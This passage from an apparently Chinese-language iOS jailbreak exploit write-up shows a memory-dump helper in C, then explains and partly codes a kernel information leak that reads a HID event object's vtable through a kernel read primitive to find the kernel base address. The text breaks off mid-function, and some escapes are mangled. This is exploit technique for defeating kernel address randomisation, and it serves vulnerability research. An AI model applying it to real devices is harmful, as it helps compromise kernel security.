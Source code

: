 ```
            // Output the offset.
            printf ("  %04X:", idx);
        `}`
         
        // Now the hex code for the specific character.
        printf (" %02X", pc[idx]);
         
        // And store a printable ASCII character for later.
        if ((pc[idx] &lt; 0x20) || (pc[idx] &gt; 0x7e))
            buff[idx % 16] = '.';
        else
            buff[idx % 16] = pc[idx];
        buff[(idx % 16) + 1] = '';
    `}`
     
    // Pad out last line if not exactly 16 characters.
    while ((idx % 16) != 0) `{`
        printf ("   ");
        idx++;
    `}`
     
    // And print the final ASCII bit.
    printf (" | %sn", buff);
`}`
```

表24:打印内存内容

### 内核信息泄露

内核信息泄露是在内核读基础之上实现的,利用过程如下:

1、利用前面提到的内核信息泄露漏洞得到某个内核对象的真实内核地址。

2、然后利用内核读,读取对象的内容内容。

3、从读到的内容中,取出第一个 mach_vm_address_t 大小的值,这个值代表对象虚函数表的地址。

4、再次利用内存读,读虚函数表的内容。

5、从读到的虚函数表的内容中选取一个函数指针。

最后,利用函数指针计算出内核的起始地址。这种方式没办法得到内核的结束地址,但是不影响越狱。

```
- (mach_vm_address_t)getKernelBaseAddresses:
(mach_vm_address_t)hid_event_obj_kaddress
`{`
    // HID Event Object Memory Content
    unsigned char *hid_event_obj_content =
    [self readKernelMemoryAtAddress:hid_event_obj_kaddress + 0x1 size:0x100];
    unsigned long long *hid_event_service_queue_obj_ptr =
    (unsigned long long *)(hid_event_obj_content + 0xE0);
     
    // HID Event Service Queue Memory Content
    unsigned char *hid_event_service_queue_obj_content =
    [self readKernelMemoryAtAddress:*hid_event_service_queue_obj_ptr size:0x80];
     
    unsigned long long *hid_event_service_queue_vtable_ptr_0x10 =
    (unsigned long long *)(hid_event_service_queue_obj_content);
    unsigned char *hid_event_service_queue_vtable_content_0x10 =
    [self readKernelMemoryAtAddress:*hid_event_service_queue_vtable_ptr_0x10 size:0x18];
     
    unsigned long long *fifth_function_ptr_of_vtable =
    (unsigned long long *)(hid_event_service_queue_vtable_content_0x10 + 0x10);
     
    mach_vm_address_t kernel_base =
```